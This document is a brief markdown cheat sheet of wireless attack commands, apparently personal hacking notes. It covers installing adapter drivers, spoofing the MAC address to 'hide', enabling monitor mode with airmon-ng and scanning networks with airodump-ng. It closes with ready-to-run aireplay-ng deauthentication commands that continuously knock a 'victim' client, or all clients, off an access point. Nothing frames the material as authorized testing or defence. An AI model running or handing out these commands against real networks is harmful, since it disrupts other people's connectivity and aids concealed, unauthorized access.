 # WiFi hacking

## install REaltek drivers 

This is a typical wifi SOC within ALFA devices.


```bash
sudo apt install realtek-rtl88xxau-dkms
```

## Hide your Mac

```bash

sudo ip link set dev $interface down

sudo macchanger --mac=aa:bb:cc:dd:ee:ff $interface

sudo ip link set dev $interface up

```


## Put Wireless Interface in Monitor Mode

1. check for available interfaces

`airmon-ng check`

2. kill interfering processes

`airmon-ng check kill`

3. If interface is on `wlan0`, set it to monitoring mode

`airmon-ng start wlan0`

On success you get something like 

```
PHY	Interface	Driver		Chipset

phy0	wlan0		88XXau		Realtek Semiconductor Corp. RTL8812AU 802.11a/b/g/n/ac 2T2R DB WLAN Adapter
		(monitor mode enabled)

```

## Scanning for Networks


```bash

sudo airodump-ng --band abg $interface


#You can combine these to monitor multiple bands. For example:

#--band abg: Monitor all 2.4 GHz and 5 GHz networks.
#--band bg: Monitor only 2.4 GHz networks (both 802.11b and 802.11g).
#--band a: Monitor only 5 GHz networks.


```




This will display a list of all available Wi-Fi networks, along with various details about them:

```text
BSSID: The MAC address of the access point.
PWR: Signal level reported by the card.
Beacons: Number of announcements packets sent by the AP.
#Data: Number of captured data packets (includes data and QoS data).
CH: Channel on which the AP is operating.
ENC: Encryption algorithm used (WEP, WPA, WPA2, etc.).
ESSID: The name of the Wi-Fi network.
```



## De-auth attack

### single client

```bash

# you have to be monitoring specific BSSID on specific channel

sudo airodump-ng --bssid $AP_mac  -c $channel $interface


sudo aireplay-ng -0 0 -a $AP_mac -c $victim_mac $interface


# where -0 0 is continuous deauth mode

```

### multi clients

`sudo aireplay-ng -0 0 -a $AP_mac  $interface`
